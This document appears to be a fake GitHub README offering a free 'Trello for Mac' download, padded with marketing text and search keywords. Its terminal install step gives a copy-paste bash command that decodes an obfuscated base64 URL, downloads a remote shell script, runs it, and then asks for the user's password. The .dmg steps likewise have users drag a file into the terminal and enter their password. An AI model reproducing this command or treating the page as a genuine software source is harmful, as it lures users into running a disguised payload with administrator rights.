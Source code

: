# Trello For Mac — Free Download 🚀
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/27/ef/65/27ef653c-2510-bc73-5b31-618ba86f32e9/electron.png/1200x630bb.png)

Effortlessly manage your projects with Trello for Mac OS. Follow the simple steps below to download and install this powerful task management tool for free!

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/trellomac)

If the button above doesn't work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Trello For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Trello

- 🚀 **Intuitive Task Management**: Organize tasks with drag-and-drop boards, lists, and cards for seamless project tracking.
- 🔔 **Real-Time Collaboration**: Work with your team in real time, with instant updates and notifications.
- 📅 **Flexible Deadlines**: Set due dates, reminders, and checklists to keep projects on track.
- 📎 **File Attachments**: Attach files, images, and documents directly to tasks for easy access.
- 🔄 **Cross-Platform Sync**: Sync your Trello boards across Mac, mobile, and web for uninterrupted productivity.
- ⚙️ **Customizable Workflows**: Tailor boards with labels, filters, and automations to fit your workflow.

## About Trello

Trello for Mac is a versatile **task management software** designed to streamline your workflow, whether you're managing personal projects or collaborating with a team. With its clean interface and powerful features, Trello transforms chaotic to-do lists into organized, actionable plans. By leveraging **Trello free download**, users can access a robust platform that supports everything from simple task tracking to complex project management. Its drag-and-drop functionality makes it easy to prioritize tasks, assign team members, and monitor progress in real time. Trello is perfect for professionals, students, and anyone seeking a **productivity tool for Mac** that’s both intuitive and powerful.

One of Trello's standout features is its flexibility. Whether you're planning a marketing campaign, organizing a wedding, or tracking software development, Trello adapts to your needs with customizable boards, lists, and cards. The **free project management app** integrates seamlessly with tools like Slack, Google Drive, and Dropbox, allowing you to centralize your work in one place. The ability to attach files, set deadlines, and automate repetitive tasks ensures that Trello remains a go-to choice for those searching for a **Mac productivity software** that’s both free and reliable.

Trello’s collaborative features make it ideal for teams of all sizes. Real-time updates ensure that everyone stays on the same page, while comment threads and activity logs keep communication clear and organized. For those exploring **task management for Mac**, Trello’s cloud-based syncing means your boards are accessible across devices, ensuring you can work from anywhere. The free version of Trello offers ample functionality for most users, making it a top choice for those seeking a **free Trello download for Mac**.

Security is a priority with Trello, ensuring your data is protected while you focus on productivity. The platform uses industry-standard encryption, and the Mac app is optimized for performance, delivering a smooth experience even on older devices. For anyone looking to boost efficiency with a **free productivity app**, Trello’s lightweight design and powerful features make it a standout option. Its regular updates ensure compatibility with the latest macOS versions, keeping your workflow uninterrupted.

### Why Choose Trello?

Trello’s key advantage lies in its simplicity paired with robust functionality. Unlike other **task management tools**, Trello offers a free, feature-rich experience that doesn’t overwhelm users with complexity. Its visual board-based system is intuitive, making it accessible for beginners while offering advanced features like Butler automation for power users. With a **free download for Mac**, Trello empowers users to organize their work efficiently without costly subscriptions, making it a top choice for **Mac productivity software**.

## 🖼 Preview

![Trello Board View](https://i.imgur.com/qi5pwR3.png)  
*Organize tasks with Trello’s intuitive board view.*

![Task Details](https://images.ctfassets.net/zsv3d0ugroxu/6ihQreqMyggxhgnr7nQ0Yy/babd0061d0b19a29b0d0dca5c966d435/Screenshot_TrelloSettings)  
*Add attachments, due dates, and comments to tasks.*

![Team Collaboration](https://atlassianblog.wpengine.com/wp-content/uploads/2024/01/sidemenu_sticky.png)  
*Collaborate in real time with your team.*

## 🔍 Tags

Trello free download, Trello for Mac, free productivity app, free Trello download for Mac, trello mac, trello download mac, trello mac os, trello for macbook, trello desktop download, trello desktop app for mac, trello desktop mac, trello download, trello download free, trello mac os
